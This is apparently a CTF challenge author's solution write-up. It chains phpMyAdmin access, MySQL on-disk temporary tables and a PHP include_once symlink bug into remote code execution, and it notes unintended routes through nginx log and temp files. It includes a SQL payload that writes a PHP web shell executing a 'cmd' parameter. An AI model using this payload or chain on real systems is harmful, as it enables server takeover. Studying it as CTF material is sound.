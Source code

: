 # Solution

We need to do two things at once.

1. Login to phpMyAdmin panel (given address) with credential: server / demo / demo (Players can guess the credential from given files)
2. Go to SQL tab and run `use admin_debug;create temporary table exp(pay LONGBLOB);insert into exp values("<?php system($_GET[cmd]); ?>");select sleep(50);`
3. While the sql is executed, run `exp.py`
4. The flag will be printed if the sql race condition succeed.

This challenge is about the bug of php's `include_once` when it gets too many symbolic links. Also, the players must study about MySQL.

https://dev.mysql.com/doc/refman/8.0/en/create-temporary-table.html

If you take a look at the docs above, it tells below

```
...
To create a temporary table, you must have the CREATE TEMPORARY TABLES privilege. After a session has created a temporary table, the server performs no further privilege checks on the table. The creating session can perform any operation on the table, such as DROP TABLE, INSERT, UPDATE, or SELECT.
...
```

Even if I granted the user to perform `select` and `create temporary table` only, the users can insert data on the table. Also, if you take a look at here -

https://dev.mysql.com/doc/refman/8.3/en/internal-temporary-tables.html

```
...

The following variables control TempTable storage engine limits and behavior:

tmp_table_size: Defines the maximum size of any individual in-memory internal temporary table created by the TempTable storage engine. When the tmp_table_size limit is reached, MySQL automatically converts the in-memory internal temporary table to an InnoDB on-disk internal temporary table. The default tmp_table_size setting is 16777216 bytes (16 MiB).
...
```

So, Users can force to create temporary table on the disk by using `LONGBLOB` which supports 4,294,967,295 bytes data (bigger than tmp_table_size). This table will be stored in the disk and we can abuse this to make it RCE.

**Note**
To prevent unintended solution, I did
- Disabled PHP_UPLOAD_PROGRESS
- Disabled Logging
- Disabled tmp file upload
- Disabled Create / Insert permission on DB user to prevent not using temporary table (Unless, it will be easy).
- Exit when wrapper string detected (Detect `:`)
- Reboot MySQL every 30 second to prevent abusing `ibtmp1` (30 second is enough. I checked with my payload)

# Unintended Solution during CTF
- RCE via nginx access.log
  
My configuration disabled php access.log but didn't do it on PMA. So, players abused it by changing the header.

- RCE via nginx temp files
  
https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-nginx-temp-files

